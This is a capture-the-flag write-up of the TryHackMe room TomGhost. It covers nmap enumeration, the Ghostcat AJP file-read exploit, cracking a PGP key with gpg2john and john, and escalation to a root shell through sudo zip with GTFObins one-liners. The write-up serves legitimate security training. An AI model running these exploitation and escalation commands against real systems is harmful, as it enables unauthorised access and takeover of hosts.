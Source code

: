 ```yaml
---
layout: post
title: "THM Writeup - TomGhost"
subtitle: "Try Hack Me - TomGhost"
date: 2021-07-08 
background: '/img/bg-write.jpg'
---
```


# THM ![Try Hack Me](https://img.shields.io/badge/-TryHackMe-black?style=flat-square&logo=tryhackme)

## Room name: TomGhost
<https://tryhackme.com/room/tomghost>

### Description: 
Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

### OS: ![Linux](https://img.shields.io/badge/Linux-black?style=flat-square&logo=linux)


### Enumeration
As I will be leveraging the built in THM Attack Box, I like to prepare by setting up the environment to ensure consistency. I plan to script some of this in the near future for ease of use.
Firstly, I will create the **scans** directory for NMAP.

Optional: for added convenience, one may choose to add the ip to the local hosts file.

```bash
echo "127.0.0.1 tom" > /etc/hosts
```

To begin enumeration, a simple nmap scan to enumerate open ports, services, and versions:

```bash
nmap -sC -sV -A -oN scans/nmap.initial $IP
```
The following ports are open on the machine:

port 	   |service
-----------|----------
22         |ssh
53		   |tcpwrapped
8009	   |Apache Jserv
8080       |Apache Tomcat

Visiting the website at port 8080 reveals the default Apache tomcat help page. After looking around for clues and attempting to log in, I decided to move on to the other ports and services. 

Looking at the service on 8009 and searching Exploit DB, we run across the following exploit:
- https://www.exploit-db.com/exploits/48143

The National Vulnerability database also includes the entry:
- nvd.nist.gov/vuln/detail/CVE-2020-1938

In addition, running searchsploit for ajp reveals the following (our target is the 48143.py file):

```bash
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclu | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat' File Read/Inclu | multiple/webapps/48143.py
---------------------------------------------- ---------------------------------
```


## User Flag:
The python exploit is fairly straightforward and only requires the $IP of the target system.
Running the exploit (python 48143.py $IP), we are able to reveal the following:
```bash
<description>
    Welcome to GhostCat
        s***k:8****ks
</description>    
```
This confirms the credentials for one user. We can then attempt to SSH into the server with this login information.
<br>
After we successfully ssh into the server, listing directory contents presents us with the following PGP keychanin files. We also use this time to check the user privilege level.
```bash
s***k@ubuntu:~$ ls
credential.pgp  tryhackme.asc

s***k@ubuntu:~$ id
uid=1002(s***k) gid=1002(s***k) groups=1002(s***k)
```
As a standard, we search the machine for the user flag (user.txt) and redirect any failed output to dev/null. This reveals the location of the flag in the home directory of user: merlin. we then view the contents of the file to receive the user flag.
```bash
s***k@ubuntu:~$ find / -type f -name user.txt 2>/dev/null
/home/merlin/user.txt
s***k@ubuntu:~$ cat /home/merlin/user.txt
THM{G**********y}
```

## Root Flag
Now that we have a user shell and have located the user flag, we can go back to the PGP files we located earlier. For ease of manipulation, we can move these files to our attack machine.
```bash
root@ip-10-10-44-243:~# scp s***k@$IP:/home/s***k/* .
s***k@$IP password: 
credential.pgp                                                  100%  394   204.1KB/s   00:00    
tryhackme.asc                                                   100% 5144     4.1MB/s   00:00
```

Now, with the files available, we can leverage gpg2john to reveal the hash in the tryhackme.asc file. From there, we can then use john to crack the password hash.

Run:
> gpg2john tryhackme.asc > hash.txt

Then we run the following using the rockyou wordlist:
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
a****u        (tryhackme)
1g 0:00:00:00 DONE (2021-07-08 20:38)
```

Now we have received the password from the file, we can decrypt the .GPG file. In order to do so we will need to import the gpg file, then decrpt as follows:
>gpg --import tryhackme.asc<br>
>gpg --decrypt credential.pgp

Upon running the commands and entering the password gained in the previous step, we are presented with the password for the user: **merlin**.

>merlin:a**********************j

Using these creds, we can now SSH into the server as merlin and move on.

After logging in as merlin, to further pivot, we review what, if any SUDO permissions are available for use. To do so we run *sudo -l* to enumerate. We see that merlin may run Zip as root. 

```bash
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
This being the case, we search to identify a potential Zip privilige escalation. We check GTFObins (<https://gtfobins.github.io/gtfobins/zip/#sudo>) for a possible option and find that we can get a root shell with the following command.  
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

** Alternative **
sudo zip 1.zip a -T --unzip-command="sh -c /bin/bash"
```
We now have a shell running as root.
```bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
From here we run find to simply locate root.txt and examine the output to get our final flag.
```bash
root@ubuntu:~# find / -type f -name root.txt 2>/dev/null
/root/root.txt
root@ubuntu:~# cat /root/root.txt
THM{Z**********E}
```

## Takeaways

1. Basic enumeration with nmap
2. Exploit DB search and POC identification
3. John the ripper (gpg2john) on pgp files
4. GTFObins for Zip